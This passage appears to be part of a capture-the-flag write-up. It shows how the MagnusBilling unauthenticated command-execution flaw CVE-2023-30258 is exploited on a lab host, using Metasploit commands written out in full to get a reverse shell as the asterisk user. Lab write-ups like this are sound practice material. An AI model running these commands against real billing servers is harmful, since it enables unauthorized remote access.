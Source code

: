 under CVE the classification it allows remote attacker to run a command via unauthenticated HTTP request.

### Launch Metasploit:

```
search magnusbilling
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS billing.thm
set LHOST tun0
exploit

```

Outcome: Got a shell as `asterisk` user.

```jsx
search magnusbilling
```

![image.png](image%206.png)

2.use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

![image.png](image%207.png)

1. set RHOSTS billing.thm
set LHOST tun0
exploit
